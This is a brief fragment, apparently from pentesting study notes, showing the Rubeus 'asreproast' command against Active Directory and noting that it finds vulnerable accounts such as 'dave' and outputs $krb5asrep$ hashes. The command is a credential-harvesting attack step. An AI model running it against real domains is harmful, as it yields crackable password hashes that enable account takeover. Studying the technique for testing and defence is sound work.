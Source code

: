 .\Rubeus.exe asreproast /nowrap <br> <br>
		○ Automatically finds vulnerable users (e.g., dave 
Output includes $krb5asrep$ hash
